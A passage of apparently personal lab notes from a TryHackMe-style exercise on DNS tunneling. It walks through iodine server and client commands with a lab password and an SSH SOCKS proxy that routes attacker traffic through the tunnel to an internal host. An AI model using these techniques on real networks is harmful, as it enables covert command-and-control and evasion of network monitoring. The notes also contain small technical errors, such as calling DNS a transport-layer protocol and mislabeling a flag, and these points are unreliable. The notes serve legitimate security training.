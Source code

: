 	Breakdown:
	- Ensure to execute the command with 'sudo'. The 'iodined' creates a new network interface (dns0) for the tunneling over the DNS.
	- "-f" : run the server in the foreground.
	- "-c" : skip checking the client IP address and port for each DNS request.
	- "-P" : set a password for authentication which in this case is 'thmpass'.
	- "10.1.1.1/24" : to set the network IP for the new network interface (dns0). Note that the IP address of the server will be 10.1.1.1 and the client 10.1.1.2.
	- "att.tunnel.com" : the nameserver we previously set that any DNS request sent to it, will be directed to JumpBox and then to AttackBox and configured.

##### 2. Check if (1) worked:
![](/assets/img/Pasted image 20230111114058.png)

##### 3. Connecting to the server-side application using the JumpBox VM:
`thm@jump-box:~$ sudo iodine -P thmpass att.tunnel.com`

![](/assets/img/Pasted image 20230111114414.png)

![](/assets/img/Pasted image 20230111114435.png)

<u>Checking communication to the server DNS on the Attacker machine</u>:
`thm@jump-box:~$ ping -c 2 10.1.1.1`
![](/assets/img/Pasted image 20230111114614.png)

	- Great! Now it can communicate to the C2 server.

**NOTE**: ALL communications over the network `10.1.1.1/24` will be over `DNS`. We will be using "`-D`" argument for the dynamic port forwarding feature to use the SSH session as a proxy.
`Note 2`: We used the "`-f`" argument to enforce ssh to go to the background. The "`-4`" argument forces the ssh client to bind on IPv4 only.

`root@attacker$ ssh thm@10.1.1.2 -4 -f -N -D 1080`

	- "-4" : only uses IPv4
	- "-f" : go to foreground
	- "-N"
	- "-D" : Dynamic port forwarding is allowed in this since SSH supports SOCKS proxying.
	- This SSHs to the client side iodine but connecting there via port 1080.

![](/assets/img/Pasted image 20230111121930.png)

	- If this is the case, reassign the port 1080 from localhost to 10.1.1.2 which is the client side of iodine at JumpBox.
	- In this way, you can access web.thm.com from the Attacker at Network 2 through the adjacent Jumpbox machine.
	- At this point, any communication sent from the Attacker machine at Network 2 through SSH via port 1080, will go to a DNS tunnel which then end up at another DNS tunnel endpoint at the JumpBox. After it has been received there, it will do the usual HTTP request via TCP which is to the web.thm.com.
	- So I guess the way DNS tunneling works is that the actual machine that asks for the requests pass the request(s) to the intermediary(JumpBox) such that the intermediary asks the requests to the destination on the requester's(Attacker machine at Network 2) behalf.
	- This makes sense since DNS protocol operates at the transport layer.
